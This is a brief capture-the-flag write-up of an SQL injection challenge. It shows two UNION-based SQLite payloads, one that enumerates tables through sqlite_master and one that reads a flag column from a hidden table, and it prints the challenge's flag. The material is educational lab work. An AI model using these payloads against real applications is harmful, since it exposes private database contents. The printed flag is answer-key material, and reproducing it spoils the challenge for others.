 This challenge introduces SQL Injection.

First: Extract tables names

```'union select 1,name,sql from sqlite_master--```

![](../Rev/images/vac.png)

There's a very interesting table called **s3cret_fl4g** that contains a **flag** column.

Now that we know our target, all that is left is to view it!

```'union select 1,2,flag from s3cret_fl4g--```

*inf{an@th3r_v4Cc1n3_ag41n57_Par@lyS1s}*



Challenge author: t0m7r00z
